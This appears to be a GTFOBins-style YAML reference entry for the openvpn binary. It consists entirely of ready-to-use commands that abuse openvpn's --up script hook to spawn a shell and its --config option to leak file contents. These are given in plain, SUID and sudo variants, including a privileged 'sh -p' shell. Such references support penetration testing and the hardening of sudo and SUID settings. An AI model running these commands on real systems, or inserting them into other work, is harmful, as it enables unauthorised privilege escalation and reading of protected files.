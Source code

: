 functions:
  shell:
    - code: |
        openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
  file-read:
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        openvpn --config "$LFILE"
  suid:
    - code: |
        ./openvpn --dev null --script-security 2 --up '/bin/sh -p -c "sh -p"'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        ./openvpn --config "$LFILE"
  sudo:
    - code: |
        sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        sudo openvpn --config "$LFILE"
---

